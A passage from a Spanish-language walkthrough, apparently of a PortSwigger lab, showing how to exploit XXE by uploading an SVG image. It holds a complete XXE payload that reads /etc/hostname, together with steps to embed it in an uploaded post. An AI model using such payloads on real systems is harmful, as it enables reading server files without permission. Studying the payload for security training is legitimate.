 ```plaintext
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

<p align="center">
     <img src="/assets/images/portswigger/exploiting_xxe_via_image_file_upload/3.png" width="1000">
</p><br>

Así que vamos a hacer una imagen con `extensión svg` y con un bloc de notas vamos a `añadirle el payload` incrustado para que cuando podamos subir la imagen ese payload se ejecute.

<p align="center">
     <img src="/assets/images/portswigger/exploiting_xxe_via_image_file_upload/4.png" width="1000">
</p><br>

Entonces vamos a subir un post con la `imagen` que a la cual le hemos incrustado el payload.

<p align="center">